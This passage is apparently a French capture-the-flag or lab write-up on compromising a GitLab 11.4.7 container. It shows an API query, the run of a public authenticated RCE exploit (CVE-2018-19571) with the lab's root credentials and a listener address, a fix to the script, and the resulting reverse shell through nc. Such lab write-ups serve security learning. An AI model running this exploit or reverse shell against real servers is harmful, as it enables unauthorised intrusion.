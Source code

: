 Ce mot de passe ne permet pas une connexion SSH, il s'agit du mot de passe de l'utilisateur nommé `root` sur le Gitlab.

D'ailleurs au lancement de la VM, le container Gitlab était en mauvais état, c'était bien pratique de pouvoir le relancer.

On peut aussi retrouver les informations du compte via l'API (le hostname provient des informations de `docker inspect`) :

```console
$ curl http://gitlab.cachalot.local:5080/api/v4/users/1
{"id":1,"name":"Administrator","username":"root","state":"active","avatar_url":"https://www.gravatar.com/avatar/e64c7d89f26bd1972efa854d13d7dd61?s=80\u0026d=identicon","web_url":"http://gitlab.cachalot.local/root","created_at":"2022-10-09T14:51:23.429Z","bio":null,"location":null,"public_email":"","skype":"","linkedin":"","twitter":"","website_url":"","organization":null}
```

Il existe des failles Gitlab correspondant à la version du container (`11.4.7-ce.0`). Metasploit propose un module (basé sur `exiftool`, mais il ne supporte pas l'authentification.

Sur `exploit-db` on trouve un exploit qui correspond aussi à la version et gère l'authentification : [GitLab 11.4.7 - RCE (Authenticated)](https://www.exploit-db.com/exploits/49334)

L'exploit se base sur une faille SSRF et du cross protocol à ce que j'ai compris ici : [gitlab-ssrf: Demonstration of CVE-2018-19571](https://github.com/CS4239-U6/gitlab-ssrf). Les noms de fichiers correspondent d'ailleurs étrangement à notre situation.

À l'exécution cependant, j'obtiens une erreur :

```console
$ python3 gitlab_sploit.py -g http://gitlab.cachalot.local -u root -p 'M4st3rR00tS3cr3t0ne^1337^' -l 192.168.56.1 -P 55555
[+] authenticity_token: L/lLcYmThQ6O3TOFZFzPrDxejqvE+qEwZSZKZQ1s53uy6lOti6fRjXPP9mb3TikpJasUC0V1bUDH8BXwvy0gXg==
[+] Creating project with random name: project9425
Traceback (most recent call last):
  File "/tmp/gitlab_sploit.py", line 69, in <module>
    'input', {'name': 'project[namespace_id]'}).get('value')
                                                ^^^
```

Le code essaye d'extraire le `namespace_id` du code HTML, mais cette valeur n'est pas présente. En regardant le code HTML de Gitlab pour la création d'un nouveau projet, je comprends qu'un `namespace` est en fait un groupe (de projets).

J'ai donc créé un groupe puis j'ai hardcodé son ID (`2`) dans le code. Il semble qu'il y avait déjà un projet numéroté `1` mais je n'avais pas de droit dessus.

Cette fois ça marche normalement. J'avais quelques réserves, car l'exploit utilise `nc` pour le connect back et ce n'est pas dit qu'il était présent dans le container (sans ça on aurait utilisé `/dev/tcp`).

```console
$ ncat -l -p 55555 -v
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:55555
Ncat: Listening on 0.0.0.0:55555
Ncat: Connection from 192.168.56.141:57906.
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
```
